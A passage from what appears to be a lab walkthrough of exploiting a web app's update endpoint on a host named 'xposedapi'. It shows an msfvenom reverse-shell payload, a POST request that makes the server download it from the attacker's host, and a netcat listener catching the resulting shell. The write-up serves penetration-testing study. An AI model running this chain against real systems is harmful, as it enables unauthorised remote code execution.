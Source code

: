 ## EXPLOITATION :

Now let us create a malicious file with `msfvenom` and serve this to the server.

```
┌──(root💀nehal)-[~]
└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.224 LPORT=22 -f elf > shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

Now let us request it via the server as an update.

```
POST /update HTTP/1.1
Host: 192.168.224.134:13337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 63

{"user":"clumsyadmin", "url":"http://192.168.49.224/shell.elf"}

-----------------------------------------------------------------------------------------------------------------------------------------

HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Sat, 12 Jun 2021 17:10:55 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 81

Update requested by clumsyadmin. Restart the software for changes to take effect.
```

We have successfully uploaded the shell. Now we need to restart the web app by `/restart` endpoint. We also need to set up a listener on the specified port.

```
┌──(root💀nehal)-[~]
└─# nc -nlvp 22
listening on [any] 22 ...
connect to [192.168.49.224] from (UNKNOWN) [192.168.224.134] 33594
python -c 'import pty;pty.spawn("/bin/bash")'
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ id && hostname
id && hostname
uid=1000(clumsyadmin) gid=1000(clumsyadmin) groups=1000(clumsyadmin)
xposedapi
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ 
```
